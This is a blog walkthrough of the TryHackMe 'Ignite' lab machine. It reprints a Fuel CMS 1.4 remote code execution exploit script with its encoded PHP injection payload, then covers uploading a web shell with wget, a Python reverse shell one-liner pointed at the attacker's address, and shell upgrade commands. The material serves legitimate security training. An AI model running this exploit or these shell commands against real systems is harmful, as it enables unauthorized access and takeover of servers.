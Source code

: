 ```yaml
---
layout: post
title:  "TryHackMe 'Ignite' Room Walkthrough"
author: Michael
categories: [ walkthrough, writeups, tryhackme ]
image: assets/images/ignite1.png
featured: false
hidden: true
---
```


### RECON

The <a href="https://tryhackme.com/room/ignite">description</a> of this room indicates that we're dealing with a web server and after a full Nmap port scan, that looks like all it is. If we navigate to the respective IP address that the room gave us when the machine was deployed, you'll be welcomed with a "Welcome to Fuel CMS" landing page. This page indicates that the CMS is version 1.4 as well as some basics. It's also important to note that the default credentials for the application of `admin:admin` are listed here as well. We'll kick off a "dirb" scan of the web server but the first thing I always check for here is a robots.txt file. The robots file on this page has a lone `/fuel` entry. This URL was also noted on the main landing page. Navigating to this page yields a login.
<p><img src="/assets/images/ignite3.png"></p>

### LIGHTING THE FIRE

Whenever you're dealing with a login for something like this, remember to always keep it simple and try the low hanging fruit first. You never know when it might save you a lot of time. In this case, that was exactly what happened! The default credentials of `admin:admin` allowed me to login to the CMS. I did some poking around the app but wasn't finding any particular ways to get code execution out of the gate, so I took to the Google.

<p><img src="/assets/images/ignite2.png"></p>

It looks here like we have a code execution flaw and this version of the CMS is vulnerable to it. I pulled a copy of the exploit to my machine from <a href="https://www.exploit-db.com/exploits/47138">here</a> and then opened it up in my text editor because it's going to need some changing for it to work correctly. A portion of the code originally reads like this:

```
url = "http://127.0.0.1:8881"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url, proxies=proxy)
  ```
However if you ran this python script as is, it would not work. There are two things I personally changed. The first thing you need to do is change the url at the top. It simply needs to read http://tryhackmeIP with the IP address the room deployed the machine to. The second thing I chose to do was comment out the proxy line with a pound sign and then remove `, proxies=proxy` from the following line. This would be find if you wanted to funnel this exploit through burp, but it's not necessary. Your final code will look something closer to this:

```
url = "http://10.0.0.117"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	#proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url)
  ```
Now that our code is edited, we can run it with Python. When you run it, you'll get a "cmd:" prompt. Simply type a command in there, and you should get data back like the image below. The script seems a bit broken and outputs some PHP errors, but nonetheless, we're executing code on the server.
<p><img src="/assets/images/ignite4.png"></p>
<blockquote>We ran the `whoami` command in the prompt and it output the web server user as expected: `www-data`.</blockquote>

Now, we have RCE but it's really clunky and I don't have the full shell experience, I want to elevate this RCE to a fully interactive shell experience. My personal favorite for something like this is <a href="https://github.com/Arrexel/phpbash/blob/master/phpbash.php">phpbash</a>. PHPbash allows you to run a semi-interactive shell experience right in your browser window on the web server. At this point we can print out the user flag but I am going to get to that later instead. I have the php file downloaded on my computer, I just need to transfer it to the victim machine. For this I will use both Python and wget.

First I want to open my terminal and navigate to the directory where the phpbash.php file is stored. Then I want to type `python3 -m http.server 80`. This will basically stand up a web server in whatever folder I'm in and allow others to download files out of it. Then I run `ifconfig` and I find my IP address on the tryhackme VPN. If you're on mac or linux this is usually the interface looking like `tun0` or `utun0`. Your IP address will definitely start with a 10 here. Once you have that IP address, go to your exploit where you can input commands and use:`wget http://YOURIPADDRESS/phpbash.php`. This will download phpbash into the current web server directory. You should see the HTTP requests on your terminal where you ran the http.server command. At this point you can now navigate to http://igniteIPaddress/phpbash.php and you'll have a semi-interactive, beautiful shell right there in your web browser.
<p><img src="/assets/images/ignite5.png"></p>
<blockquote>This is a much cleaner and easier way to grab user in my opinion</blockquote>

### ELEVATING OURSELVES

Typically when I get user access the first thing I want to run is `sudo -l`. There's always a chance that this can print out a list of things you're authorized to run as an elevated user. Unfortunately in this case, phpbash isn't a real terminal and it will error out if you try a lot of various privilege escalation tasks here. So, we need to get ourselves a real reverse shell. You can do this with python in phpbash. In your terminal, start a netcat listener with the command `nc -lvn 7777`. Then in phpbash, paste the following reverse shell command:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOURIPADDRESS",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`
```

After you run that in phpbash, you should see a new message on your netcat listener and have a dollar sign. If you type `whoami` on it, you will see you now have a reverse shell as "www-data". However this shell still won't do what we want it to, so we need to get full tty for an interactive shell. First, enter this python command: `python -c 'import pty; pty.spawn("/bin/bash")'`.Then, press CTRL+Z to put the shell in the background. Next, type this command in the same window: `stty raw -echo;fg`. This will bring your shell back to the foreground with full interactive experience.
<p><img src="/assets/images/ignite6.png"></p>

NOW... I spent a lot of time at this point enumerating the machine. I pulled in scripts to examine the system, I explored kernel updates, the works. However, I will not spend substantial time on that because the solution here is much easier. Back on the main page, where the default creds were listed, there was another important piece of information. In step 2, it lists a database configuration file that you need to input a username and password into. If we navigate to that file, we will see this:
<p><img src="/assets/images/ignite7.png"></p>

That's right, and if we take that in our terminal and give it a shot:
<p><img src="/assets/images/ignite8.png"></p>

I hope this walkthrough was helpful and feel free to show me how you did it different or send any recommendations to me on Twitter!
